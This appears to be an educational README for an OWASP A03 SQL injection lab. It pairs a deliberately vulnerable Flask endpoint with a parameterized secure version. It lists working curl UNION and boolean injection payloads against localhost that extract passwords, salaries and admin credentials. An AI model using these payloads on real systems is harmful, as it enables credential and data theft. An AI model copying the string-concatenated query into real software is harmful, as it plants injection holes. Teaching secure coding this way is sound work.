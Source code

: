 # A03: Injection (SQL Injection) - Simple Example

## Overview
This example demonstrates SQL injection vulnerability through a single vulnerable endpoint that allows attackers to extract sensitive data from the database.

## Database Schema
```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL,
    email TEXT NOT NULL,
    password TEXT NOT NULL,     -- Stored in plain text (vulnerable)
    role TEXT DEFAULT 'user',   -- 'admin' or 'user'
    salary INTEGER DEFAULT 0    -- Sensitive financial data
);
```

**Sample Data:**
- ID 1: admin / admin@company.com / admin123 / admin / $150,000
- ID 2: alice / alice@company.com / password123 / user / $75,000  
- ID 3: bob / bob@company.com / secret456 / user / $65,000

## Vulnerable Endpoint: `/api/user/<id>`

### **Vulnerable Code:**
```python
@app.route('/api/user/<user_id>')
def get_user(user_id):
    # VULNERABLE: Direct string concatenation
    query = f"SELECT id, username, email, role FROM users WHERE id = {user_id}"
    cursor.execute(query)
```

### **Why It's Vulnerable:**
- **No input validation** - accepts any string as user_id
- **String concatenation** - directly inserts user input into SQL query
- **No parameterization** - treats user input as SQL code

## SQL Injection Attacks

### **1. Extract All Passwords**
```bash
curl 'http://localhost:5002/api/user/1%20UNION%20SELECT%201,username,password,role%20FROM%20users--'
```

**What happens:**
- URL decodes to: `1 UNION SELECT 1,username,password,role FROM users--`
- Resulting SQL: `SELECT id, username, email, role FROM users WHERE id = 1 UNION SELECT 1,username,password,role FROM users--`
- Returns: All usernames and passwords in the response

### **2. Extract Salary Information**
```bash
curl 'http://localhost:5002/api/user/1%20UNION%20SELECT%201,username,salary,role%20FROM%20users--'
```

**Impact:** Reveals all employee salaries

### **3. Boolean-based Attack**
```bash
curl 'http://localhost:5002/api/user/1%20OR%201=1--'
```

**What happens:**
- Resulting SQL: `SELECT id, username, email, role FROM users WHERE id = 1 OR 1=1--`
- `1=1` is always true, so returns first user in database
- Bypasses the ID-based lookup entirely

### **4. Targeted Data Extraction**
```bash
curl 'http://localhost:5002/api/user/999%20UNION%20SELECT%201,username,password,email%20FROM%20users%20WHERE%20username=%27admin%27--'
```

**Impact:** Specifically targets admin credentials

## Attack Demonstration

### **Step 1: Normal Request**
```bash
curl http://localhost:5002/api/user/1
```
**Response:**
```json
{
  "id": 1,
  "username": "admin",
  "email": "admin@company.com",
  "role": "admin"
}
```

### **Step 2: Injection Attack**
```bash
curl 'http://localhost:5002/api/user/1%20UNION%20SELECT%201,username,password,role%20FROM%20users--'
```
**Response:**
```json
{
  "id": 1,
  "username": "admin",
  "email": "admin123",    // This is actually the password!
  "role": "admin"
}
```

**Result:** The password appears in the "email" field due to column mapping in the UNION query.

## Secure Implementation: `/api/secure/user/<id>`

### **Secure Code:**
```python
@app.route('/api/secure/user/<user_id>')
def get_user_secure(user_id):
    try:
        # Input validation
        user_id = int(user_id)
    except ValueError:
        return jsonify({'error': 'Invalid user ID format'}), 400
    
    # SECURE: Parameterized query
    query = "SELECT id, username, email, role FROM users WHERE id = ?"
    cursor.execute(query, (user_id,))
```

### **Security Improvements:**
1. **Input validation** - ensures user_id is an integer
2. **Parameterized query** - uses `?` placeholder
3. **Parameter binding** - passes user_id as separate parameter
4. **Error handling** - doesn't expose SQL errors

### **Why It's Secure:**
- User input is treated as **data**, not **code**
- SQL structure cannot be modified by user input
- Database driver handles proper escaping automatically

## Testing the Vulnerability

### **Run the Server:**
```bash
python A03_Example_Injection.py
```

### **Test Vulnerable Endpoint:**
```bash
# Extract passwords
curl 'http://localhost:5002/api/user/1%20UNION%20SELECT%201,username,password,role%20FROM%20users--'

# Extract salaries  
curl 'http://localhost:5002/api/user/1%20UNION%20SELECT%201,username,salary,role%20FROM%20users--'

# Boolean injection
curl 'http://localhost:5002/api/user/1%20OR%201=1--'
```

### **Test Secure Endpoint:**
```bash
# These attacks will fail safely
curl 'http://localhost:5002/api/secure/user/1%20UNION%20SELECT%201,2,3,4--'
curl 'http://localhost:5002/api/secure/user/1%20OR%201=1--'

# Normal usage works fine
curl http://localhost:5002/api/secure/user/1
```

## Impact Assessment

| Data Exposed | Vulnerability Level | Business Impact |
|--------------|-------------------|-----------------|
| **User Passwords** | 🔴 Critical | Account takeover, credential reuse attacks |
| **Employee Salaries** | 🟠 High | Privacy violation, competitive intelligence |
| **Email Addresses** | 🟡 Medium | Phishing attacks, data correlation |
| **User Roles** | 🟡 Medium | Privilege escalation planning |

## Key Learning Points

1. **Never concatenate user input** directly into SQL queries
2. **Always use parameterized queries** with placeholder values
3. **Validate all input** before processing
4. **Handle errors gracefully** without exposing internal details
5. **Test for injection vulnerabilities** regularly

## Files
- `A03_Example_Injection.py` - Simple Flask app with one vulnerable endpoint
- `A03_curl_commands.txt` - Attack examples and test commands
- `A03_README.md` - This documentation

---
**⚠️ WARNING: Contains intentional vulnerabilities for educational purposes only!**